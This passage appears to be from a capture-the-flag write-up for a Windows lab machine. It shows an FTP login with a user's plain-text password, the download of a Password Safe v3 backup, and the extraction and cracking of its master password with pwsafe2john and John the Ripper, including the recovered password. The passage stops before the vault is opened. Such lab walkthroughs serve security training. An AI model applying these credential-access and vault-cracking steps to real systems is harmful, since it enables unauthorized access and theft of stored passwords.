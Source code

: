 ### FTP connection with Password file

Now try to connect via evil-winrm but this user can't access to DC via WinRM. We can try to access via FTP or SMB.

```bash
ftp 10.10.11.42
> benjamin
> Password123!
```

And we are login! There is a file called `Backup.psafe3` . Download it into attacker machine.

```bash
get Backup.psafe3
```

### PasswordSafe3 file and crack the hash with John

Check the file type:

```bash
file Backup.psafe3

Backup.psafe3: Password Safe V3 database
```

We can see that the file is a Password Safe 3:

> _PSAFE3 files mostly belong to Password Safe. **PSAFE3 files** are specific encrypted files from Password Safe v3._\
> _Encryption is used to secure your login credentials using a master password._\
>
>
> * _**Usage:** These files store password data in an encrypted database format._
> * _**Functionality:** They rely on the official Password Safe software to open, manage, and update the stored data._
> * _**Operation:** Only the designated application can correctly decrypt and present the information._

Now, we can try to crack the master password of DB extracting the hash from the file.&#x20;

{% code overflow="wrap" %}
```bash
pwsafe2john Backup.psafe3 > hash.txt
```
{% endcode %}

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

[..SNIP..]
tekieromucho     (Backu) 
[..SNIP..]
```

Now, using the password, let's go read the file.
